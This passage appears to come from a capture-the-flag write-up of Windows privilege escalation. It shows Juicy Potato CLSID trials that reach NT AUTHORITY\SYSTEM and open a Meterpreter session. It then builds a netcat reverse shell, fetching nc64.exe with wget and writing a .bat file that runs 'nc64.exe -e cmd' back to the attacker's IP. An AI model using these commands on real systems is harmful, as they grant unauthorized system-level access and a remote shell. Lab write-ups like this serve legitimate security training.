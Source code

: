     Optional args: 
    -m <ip>: COM server listen address (default 127.0.0.1)
    -a <argument>: command line argument to pass to program (default NULL)
    -k <ip>: RPC server ip address (default 127.0.0.1)
    -n <port>: RPC server listen port (default 135)
    -c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
    -z only test CLSID and print token's user
    

I can try with just the mandatory args:

    
    
    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001
    Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9001
    COM -> recv failed with error: 10038
    

It’s trying with the BITs server, but that’s failing.

[This page](https://github.com/ohpe/juicy-
potato/tree/master/CLSID/Windows_Server_2012_Datacenter) has a list of CLSIDs
for Windows 2012, as well as the user they associate with. I’ll work my way
down the page, and when I get to the seventh row (the first for `winmgmt`), it
works:

    
    
    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
    ......
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK
    

At `msfconsole`:

    
    
    [*] Sending stage (175174 bytes) to 10.10.10.72
    [*] Meterpreter session 4 opened (10.10.14.6:443 -> 10.10.10.72:49181 )
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

To do this without Metasploit, I can upload `nc64.exe`:

    
    
    PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/nc64.exe -outfile nc64.exe
    

I’ll write a simple `.bat` file:

    
    
    PS C:\windows\system32\spool\drivers\color> cmd /c "echo C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 > rev.bat"
    PS C:\windows\system32\spool\drivers\color> type rev.bat
    C:\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443 
    